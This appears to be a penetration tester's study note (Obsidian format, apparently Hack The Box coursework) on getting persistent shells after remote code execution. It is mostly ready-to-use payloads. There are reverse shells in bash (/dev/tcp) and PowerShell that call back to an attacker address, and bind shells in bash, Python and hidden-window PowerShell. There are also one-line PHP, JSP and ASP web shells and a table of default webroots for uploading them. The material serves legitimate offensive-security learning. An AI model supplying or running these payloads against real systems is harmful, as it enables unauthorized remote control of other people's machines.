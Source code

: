 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

Once a host has been compromised and we have RCE, setting up some form of persistent communication is a key part of [[5 - Post-Exploitation]].

## Types of Shells
### Reverse Shell
Connects back to our system and gives us control through a reverse connection. We setup a listener on our machine and then connect back to it from the target.
![[Netcat (nc)#Create a listener]]

Connecting back to our system with a shell is slightly more complex as it depends what we have available. The [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) page has a comprehensive list of reverse shells.

**Bash**
```bash
bash -c 'bash -i >& /dev/tcp/[IP]/[Port] 0>&1'
```

**Netcat**
![[Netcat (nc)#Create a simple reverse shell]]

**Powershell**
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

## Bind Shells
Unlike a reverse shell, a Bind shell connects us to the *targets'* listening port. This means we are connecting to the target rather than them connecting to us (the opposite direction to a RS).

To create a bind shell, we need to listen on a port on the target and bind a shell to that port. Then on the tester machine we can us [[Netcat (nc)]] to connect to it.

**Bash**
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

**Python**
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

**Powershell**
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

### Upgrading TTY
To give us more terminal features (eg. a mouse, history, etc) we need to upgrade the TTY.
There are multiple methods to do this. For our purposes, we will use the `python/stty` method. In our `netcat` shell, we will use the following command to use python to upgrade the type of our shell to a full TTY:

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

After we run this command, we will hit `ctrl+z` to background our shell and get back on our local terminal, and input the following `stty` command:
```shell
www-data@remotehost$ ^Z

alipali737@htb[/htb]$ stty raw -echo
alipali737@htb[/htb]$ fg

[Enter]
[Enter]
www-data@remotehost$
```

Once we hit `fg`, it will bring back our `netcat` shell to the foreground. At this point, the terminal will show a blank line. We can hit `enter` again to get back to our shell or input `reset` and hit enter to bring it back. At this point, we would have a fully working TTY shell with command history and everything else.

We may notice that our shell does not cover the entire terminal. To fix this, we need to figure out a few variables. We can open another terminal window on our system, maximize the windows or use any size we want, and then input the following commands to get our variables:

```shell
alipali737@htb[/htb]$ echo $TERM

xterm-256color
```

```shell
alipali737@htb[/htb]$ stty size

67 318
```

The first command showed us the `TERM` variable, and the second shows us the values for `rows` and `columns`, respectively. Now that we have our variables, we can go back to our `netcat` shell and use the following command to correct them:

```shell
www-data@remotehost$ export TERM=xterm-256color

www-data@remotehost$ stty rows 67 columns 318
```

Once we do that, we should have a `netcat` shell that uses the terminal's full features, just like an SSH connection.

## Web Shells
This is a web script that accepts commands through HTTP params, executes the command and returns the output. There are two components to using these: Uploading the web shell and executing the shell.

A great benefit of these kind of shells is that they utilise the existing connection that would be allowed through a firewall.

### Writing a web shell
Web shells tend to be simple one line commands that take a command and execute them on the system. The following examples are all *GET* requests:

**PHP**
```
<?php system($_REQUEST["cmd"]); ?>
```

**JSP**
```
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

**ASP**
```
<% eval request("cmd") %>
```

### Uploading the web shell
We need to get our web shell script into the web root to be able to execute it. This can either be through a file upload vulnerability, or even an RCE could let us write the file on the target system ourself.

| Web Server | Default Webroot        |
| ---------- | ---------------------- |
| Apache     | /var/www/html/         |
| Nginx      | /usr/local/nginx/html/ |
| IIS        | c:\inetpub\wwwroot\    |
| XAMPP      | C:\xampp\htdocs\       |
